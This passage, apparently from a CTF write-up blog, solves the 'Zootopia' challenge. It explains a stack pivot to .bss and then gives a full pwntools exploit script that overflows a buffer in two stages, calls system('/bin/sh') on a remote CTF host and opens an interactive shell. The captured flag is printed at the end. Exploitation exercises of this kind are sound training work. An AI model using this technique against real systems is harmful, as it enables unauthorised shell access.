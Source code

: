 ![](/assets/images/posts/2022-04-17-17-59-40.png)

We can stack pivot to .bss as there's a lot of space there.

![](/assets/images/posts/2022-04-17-18-01-40.png)

As buffer is referenced by ebp, by setting ebp to an address from the .bss during the first buffer overflow we can write our second stage of the exploit there and on `leave` instruction ebp will be copied into esp and we will be able to jump to our second stage exploit.

```py
from pwn import *

# sh = process('./zootopia')
sh = remote('ctf-13.security.cs.pub.ro', 33317)

push_esp = 0x08048541
system = 0x80486b5 #0x8048490
vuln_function = 0x804871b # 0x8048712

mov_pebp_esp = 0x08049c12

new_ebp = 0x8060000

payload = b'/bin/sh\x00'
payload += b'A' * (0x90 - len(payload) - 4)
payload += p32(new_ebp)
payload += p32(vuln_function)

sh.sendline(payload)

payload = b'/bin/sh\x00'
payload += b'A' * (0x90 - len(payload))
payload += p32(system)
payload += p32(new_ebp+0xc)
payload += b'/bin/sh\x00'

"""
context.terminal = ['tmux','splitw','-h']
gdb.attach(sh, '''
break *0x804876a
continue
''')
"""

sh.sendline(payload)

sh.interactive()
```

**ACS_IXIA_CTF{what_is_your_major_malfunction}**

<a name="zootopia2"></a>
## Zootopia 2 (50) - Exploit
